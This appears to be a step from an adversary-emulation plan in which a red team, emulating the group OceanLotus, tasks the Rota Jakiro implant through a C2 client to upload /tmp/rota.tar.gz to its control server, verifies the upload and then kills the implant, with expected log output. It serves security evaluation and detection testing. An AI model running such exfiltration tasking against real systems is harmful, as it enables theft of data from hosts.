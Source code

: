 <details><summary>Click to expand table</summary></details>

## Step 6 - Exfil from Linux Host

### 📖 Overview

**Step 6** emulates OceanLotus exfiltrating data of interest. OceanLotus tasks Rota
Jakiro to upload the `/tmp/rota.tar.gz` file to the C2 server completing the objective.
*Note, the C2 server is limited to recieve data up to but not exceeding 65535 bytes.*

---

### 👾 Red Team Procedures

1. Exfil the `rota.tar.gz` file
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_steal_data", "arg": "/tmp/rota.tar.gz"}'
   ```
   NOTE: Payloads exfiled must be 65535 bytes due to limits in buffer size.
   Expected Output:
   ```
   [SUCCESS] 2023/08/21 19:39:12 Successfully set task for session: 01020304
   [INFO] 2023/08/21 19:39:14 New task received for UUID:  01020304
   [INFO] 2023/08/21 19:39:14 Sending new task to implant: 01020304
   [SUCCESS] 2023/08/21 19:39:14 File uploaded: Successfully uploaded file to control server at './files/rota.tar.gz'
   ```
2. Verify on the C2 server that the `rota.tar.gz` is uploaded to the `/files` folder.
   ```
   ls -lart ./files
   ```
3. Give yourself a high five 🙌, mission accomplished! 💃
4. Kill Rota Jakiro
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_exit"}'
   ```
   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:01:18 Successfully set task for session: 01020304
   ...
   [INFO] 2023/08/24 19:01:18 Received task output for session:  01020304
   [Task] 2023/08/24 19:01:18 exiting!
   [SUCCESS] 2023/08/24 19:01:18 Successfully set task output.
   [INFO] 2023/08/24 19:01:18 Received task output for session:  b6dbd70f203515095d0ca8a5ecbb43f7
   [Task] 2023/08/24 19:01:18
   ```
